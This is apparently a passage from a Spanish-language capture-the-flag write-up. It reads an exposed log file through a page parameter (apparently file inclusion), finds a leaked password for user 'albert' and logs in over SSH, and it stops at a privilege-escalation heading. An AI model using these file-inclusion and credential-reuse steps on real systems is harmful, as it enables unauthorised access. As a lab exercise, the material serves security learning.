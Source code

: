 ```
URL = http://<IP>/index.php?page=logs/logs.txt
```

Info:

```
[2024-03-29 12:04:12] ERROR: Login failed for user 'root'
[2024-03-29 12:04:12] DEBUG: Trying password 'YWRtaW4xMjM='
[2024-03-29 12:04:13] ERROR: Login failed for user 'admin'
[2024-03-29 12:04:14] DEBUG: Trying password 'dGVzdDEyMw=='
[2024-03-29 12:04:16] ERROR: Login failed for user 'test'
[2024-03-29 12:04:18] DEBUG: Login failed from IP 10.10.14.8
[2024-03-29 12:04:19] DEBUG: Login failed from IP 10.10.14.9
[2024-03-29 12:04:20] DEBUG: Login failed from IP 10.10.14.10
[2024-03-29 12:04:21] DEBUG: Login failed from IP 10.10.14.11
[2024-03-29 12:04:22] WARNING: Too many login attempts
[2024-03-29 12:04:23] ERROR: Login attempt for user 'albert'
[2024-03-29 12:04:24] DEBUG: Trying password 'NGxiM3J0MTIz'
[2024-03-29 12:04:25] SUCCESS: Auth success for user 'albert'
[2024-03-29 12:04:26] DEBUG: Session token issued: 38b2fdcbffe78b9989f3e
[2024-03-29 12:04:27] DEBUG: SSH connection established from 10.10.14.8
[2024-03-29 12:04:28] DEBUG: User 'albert' added to sudo group
[2024-03-29 12:04:29] DEBUG: File accessed: /var/www/html/index.php?page=welcome
[2024-03-29 12:04:30] DEBUG: File accessed: /etc/passwd
[2024-03-29 12:04:31] DEBUG: File accessed: /var/log/auth.log
[2024-03-29 12:04:32] DEBUG: File accessed: /var/www/html/login.php
[2024-03-29 12:04:33] DEBUG: File accessed: /var/www/html/logs/logs.txt
[2024-03-29 12:04:34] WARNING: Potential exposure of file logs.txt
[2024-03-29 12:04:35] WARNING: logs.txt contains sensitive authentication data
[2024-03-29 12:04:36] [!!!] SECURITY ALERT: logs/logs.txt is PUBLICLY EXPOSED
[2024-03-29 12:04:37] [!!!] Use this file with caution credentials may be compromised
```

Veremos en las siguientes lienas esto:

```
[2024-03-29 12:04:23] ERROR: Login attempt for user 'albert'
[2024-03-29 12:04:24] DEBUG: Trying password 'NGxiM3J0MTIz'
[2024-03-29 12:04:25] SUCCESS: Auth success for user 'albert'
```

Vemos que hubo una autenticacion exitosa con el usuario `albert` por lo que vamos a probarlo directamente por `SSH`.

### SSH

```shell
ssh albert@<IP>
```

Metemos como contraseña `NGxiM3J0MTIz` y veremos que estaremos dentro.

## Escalate user conx
